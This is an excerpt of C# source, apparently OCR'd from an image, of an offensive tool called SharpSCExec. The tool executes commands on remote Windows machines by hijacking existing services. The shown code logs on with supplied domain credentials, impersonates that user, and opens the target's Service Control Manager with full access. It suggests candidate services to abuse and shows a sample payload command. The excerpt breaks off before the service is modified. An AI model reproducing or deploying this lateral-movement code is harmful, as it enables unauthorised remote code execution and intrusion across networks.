 ```cs
        public static extern uint GetLastError();

        [StructLayout(LayoutKind.Sequential)]
        public class QueryServiceConfigStruct
        {
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.U4)]
            public UInt32 dwServiceType;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.U4)]
            public UInt32 dwStartType;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.U4)]
            public UInt32 dwErrorControl;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpBinaryPathName;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpLoadOrderGroup;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.U4)]
            public UInt32 dwTagID;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpDependencies;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpServiceStartName;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpDisplayName;
        };

        static void Main(string[] args)
        {
            string target = args[0];
            string svcName = args[1]; // Potential candidates are: XblAuthManager, SensorService, BTAGService, lfsvc
            string payload = args[2];

            if (args.Length < 3)
            {
                Console.WriteLine("Usage: SharpSCExec.exe <TARGET> <SERVICE> <PAYLOAD>");
                Console.WriteLine("Example: SharpSCExec.exe SRV01 SensorService \"cmd.exe /c ping -n 2 10.10.13.37\"");
                return;
            }

            if (args.Length > 3)
            {
                string domain = args[3];
                string username = args[4];
                string password = args[5];
                IntPtr hToken = IntPtr.Zero;
                if (!LogonUser(username, domain, password, 0x9, 0, out hToken))
                {
                    Console.WriteLine($"[-] LogonUser failed: {GetLastError()}");
                    Environment.Exit(0);
                }
                if (!ImpersonateLoggedOnUser(hToken))
                {
                    Console.WriteLine($"[-] ImpersonateLoggedOnUser failed: {GetLastError()}");
                    Environment.Exit(0);
                }
            }

            IntPtr SCMHandle = OpenSCManager(
                target,
                null,
                0xF003F); // SC_MANAGER_ALL_ACCESS

```